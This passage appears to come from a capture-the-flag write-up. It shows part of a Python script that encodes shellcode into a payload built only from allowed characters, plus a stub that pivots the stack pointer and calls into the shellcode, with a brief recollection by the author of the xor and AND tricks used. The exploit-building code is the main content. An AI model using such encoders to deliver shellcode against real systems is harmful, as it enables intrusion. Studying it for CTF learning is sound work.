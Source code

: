 ```python
        # And upper half
        print("Working on upper byte")
        as_upper = ((bts >> 8) & 0xff) << 8
        if (as_upper >> 15 & 1) == 1:
            payload += highest_bit_word((as_upper>>8)|((0xff ^ 0x10)<<8))
            print("As upper: ",hex(as_upper))
        else:
            payload += not_hi_bit_word((as_upper>>8)|((0x10)<<8))
            print("As upper: ",hex(as_upper))

        payload += "D"

    return payload

final_payload = ""
while final_shellcode:
    pack = final_shellcode[-2:]
    final_shellcode = final_shellcode[:-2]

    bts = int.from_bytes(pack,"big")

    final_payload += getCodeForWord(bts)

# Calling it
#  Get 0x7dfe into esp, then push 0xfecb
goto_shellcode =  getCodeForWord(switchBytes(0x8270-32))#0x7f01+len(final_payload)+1+(3*19)+1+4+0x28+4)) # now at top of the stack
goto_shellcode += "\\" # pop esp
# 0xe9c8fe = jmp 0xfec8
# 0xffd0 = call ax 
goto_shellcode += getCodeForWord(0xffd0) # Write instruction
goto_shellcode += getCodeForWord(switchBytes(0xfecb))[:-1] # and set [e]ax to address (without pushing !) 

final_payload += goto_shellcode

print("[*] DONE")
print(final_payload)

#print(highest_bit_word(test_byte))
#print(single_byte_highest_bit(0xe3),end="")
#print(single_byte_highest_bit(0xeb),end="")
#print(FF_EAX+"3ooooP")
with open("../shell.code","wb") as f:
    f.write(final_payload.encode())
```



I don't fully remember how it works, but I think it used the xor of two valid bytes to get one that would be considered unobtainable and to set the most upper bit, we sometimes had to **AND** it with a 0xffff we got by first xor'ring something with itself (a^a == 0) and then substracing one.
